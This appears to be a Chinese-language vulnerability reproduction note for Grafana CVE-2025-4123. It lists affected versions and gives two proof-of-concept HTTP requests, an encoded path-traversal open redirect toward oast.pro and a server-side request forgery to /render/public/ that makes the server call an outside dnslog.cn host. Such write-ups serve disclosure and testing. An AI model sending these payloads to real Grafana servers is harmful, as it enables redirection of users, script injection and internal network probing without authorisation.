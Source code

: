 **漏洞介绍**



![img](Grafana%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91&%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9ECVE-2025-4123.assets/640.png)

Grafana是Grafana开源的一套提供可视化监控界面的开源监控工具。该工具主要用于监控和分析Graphite、InfluxDB和Prometheus等。

Grafana存在安全漏洞，该漏洞源于客户端路径遍历和开放重定向结合，可能导致跨站脚本攻击。



注：该漏洞允许攻击者通过自定义前端插件将用户重定向到恶意网站，并执行任意 JаvаSсriрt 代码。



![Image](Grafana%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91&%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9ECVE-2025-4123.assets/640-1748914637878-1.png)



**0x02影响版本**



1、 8.0.0 ≤ grafana <10.4.18 

2、 11.2.0 ≤ grafana <11.2.9 

3、 11.3.0 ≤ grafana <11.3.6 

4、 11.4.0 ≤ grafana <11.4.4 

5、 11.5.0 ≤ grafana <11.5.4 

6、 11.6.0 ≤ grafana <11.6.1 

7、 12.0.0 ≤ grafana <12.0.1 

![图片](Grafana%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91&%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9ECVE-2025-4123.assets/640-1748914637878-2.png)

![Image](Grafana%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91&%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9ECVE-2025-4123.assets/640-1748914637878-1.png)



**0x03漏洞复现**

1.访问漏洞环境

![图片](Grafana%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91&%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9ECVE-2025-4123.assets/640-1748914637878-3.png)

2.对漏洞进行复现

 **POC** 

漏洞复现

1.开放重定向

```
GET /public/..%2F%5coast.pro%2F%3f%2F..%2F.. HTTP/1.1
Host: 127.0.0.1:8080
```

通过响应判断漏洞存在

![图片](Grafana%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91&%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9ECVE-2025-4123.assets/640-1748914637878-4.png)



2.服务端请求伪造

```
GET /render/public/..%252f%255Ckvc1mh.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
Host: 127.0.0.1:8080
```

   通过dnslog回显判断漏洞存在

![图片](Grafana%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91&%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9ECVE-2025-4123.assets/640-1748914637878-5.png)